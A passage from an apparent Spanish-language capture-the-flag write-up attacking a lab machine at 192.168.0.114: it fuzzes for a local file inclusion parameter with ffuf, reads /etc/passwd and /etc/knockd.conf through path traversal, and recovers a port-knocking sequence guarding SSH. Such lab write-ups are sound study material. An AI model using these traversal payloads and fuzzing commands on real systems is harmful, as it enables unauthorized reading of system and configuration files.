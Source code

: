 Dentro del panel de administracion muestra un mnsaje de `File does not exist` por tanto deduzco que estar intentado cargar un archivo y de ser así esposible que sea vulnerable a LFI

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -c -t 50 -b "PHPSESSID=phd6hvoi6vi2c3bvshn9754bf5" -u "http://192.168.0.114/welcome.php?FUZZ=../../../../../../etc/passwd" -fs 963
[...]
file                    [Status: 200, Size: 3316, Words: 71, Lines: 86]
```

Parametro vulnerable: `file`

----

### Port Knocking

Si analizamos nuevamente los puertos encontraremos que el 22 se encuentra filtrado 

```
❯ sudo nmap --min-rate 5000 -p- -n -Pn -sS 192.168.0.114
[...]
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http
```

Como ahora tenemos acceso al sistema de archivos podemos ubicar el archivo de configuración `knockd.conf` ubicado por defecto en la carpeta `/etc`

```
http://192.168.0.114/welcome.php?file=../../../../etc/knockd.conf
```

![golpe](../assets/imgs/dc9/golpe.png)

```
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```
